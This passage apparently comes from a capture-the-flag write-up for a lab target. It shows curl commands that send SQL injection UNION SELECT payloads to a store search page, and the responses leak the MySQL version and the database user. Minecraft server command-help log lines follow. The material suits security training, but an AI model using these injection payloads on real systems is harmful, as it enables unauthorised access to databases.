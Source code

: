 ```jsx
[REDACTED] - MORE

                    <td>16x</td>
                    <td>1$</td>
                </tr>
                <tr>
                    <td>2</td>
                    <td>3</td>
                    <td>4</td>
                </tr>
          </table>
        </div>
    </div>
</body>
</html>

```

`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2C@@version%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`

```jsx
[REDACTED] - MORE
                </tr>
                <tr>
                    <td>5.7.35-0ubuntu0.18.04.1</td>
                    <td>3</td>
                    <td>4</td>
                </tr>
          </table>
        </div>
    </div>
</body>
</html>

```

`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2Cuser()%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`

```jsx
[REDACTED] - MORE
                    <td>root@localhost</td>
                    <td>3</td>
                    <td>4</td>
                </tr>
          </table>
        </div>
    </div>
</body>
</html>

```


[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.